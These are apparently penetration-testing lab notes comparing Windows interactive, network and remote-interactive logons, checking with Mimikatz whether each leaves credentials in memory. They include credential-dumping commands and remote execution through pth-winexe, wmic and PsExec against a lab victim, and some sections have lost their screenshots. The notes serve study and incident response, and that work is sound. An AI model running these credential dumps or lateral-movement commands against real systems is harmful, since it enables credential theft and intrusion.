





# Network vs Interactive Logons

## Interactive Logon \(2\): Initial Logon

Let's make a base password dump \(using mimikatz\) on the victim system to see what we can get before we start logging on to the victim with other methods. To test this, the victim system was rebooted and no attempts to login to the system were made, except for the interactive logon to get access to the console:



```csharp
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
```





## Interactive Logon \(2\) via runas and Local Account



```text
runas /user:low cmd
```





```text
mimikatz # sekurlsa::logonpasswords
```






## Interactive Logon \(2\) via runas and Domain Account



```text
runas /user:spot@offense cmd
```





```text
mimikatz # sekurlsa::logonpasswords
```




## Network Logon \(3\) with Local Account

Imagine and admin or an Incident Responder is connecting to a victim system \(using that machine's local account\) remotely to inspect it for a compromise using pth-winexe:



```csharp
root@~# pth-winexe //10.0.0.2 -U back%password cmd
```





```text
sekurlsa::logonpasswords
```



Mimikatz shows no credentials got stored in memory for the user `back`.

## Network Logon \(3\) with Domain Account

Imagine a good admin or an Incident Responder is connecting to a victim system \(using that machine's local account\) remotely to inspect it for a compromise using pth-winexe, a simple SMB mount or WMI:



```csharp
root@~# pth-winexe //10.0.0.2 -U offense/spot%password cmd
```





```text
PS C:\Users\spot> net use * \\10.0.0.2\test /user:offense\spotless spotless
Drive Z: is now connected to \\10.0.0.2\test.

The command completed successfully.

PS C:\Users\spot> wmic /node:10.0.0.2 /user:offense\administrator process call create calc
Enter the password :********

Executing (Win32_Process)->Create()
Method execution successful.
```





```text
sekurlsa::logonpasswords
```



Mimikatz shows no credentials got stored in memory for `offense\spotless` or `offense\administrator`.

## Network Interactive Logon \(10\) with Domain Account

RDPing to the victim system:



Caches the credentials in memory:




## Network + Interactive Logon via PsExec



```csharp
PS C:\tools\PSTools> whoami.exe
offense\spot

PsExec v2.2 - Execute processes remotely
Copyright (C) 2001-2016 Mark Russinovich
Sysinternals - www.sysinternals.com

Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>
```




Mimikatz shows no credentials got stored in memory for `offense\spot`

Note how all the logon events are of type 3 - network logons and read on.

## Network + Interactive Logon via PsExec + Alternate Credentials



```text
.\PsExec64.exe \\10.0.0.2 -u offense\spot -p password cmd
```




Looking at the event logs, a logon type 2 \(interactive\) is observed, which explains why credentials could be dumped in the above test:




## Observations

Network logons do not get cached in memory excepts for `PsExec` when it is supplied alternate credentials through the use of `-u` switch. 

Interactive and remote interactive do get cached and can get easily dumped with Mimikatz.

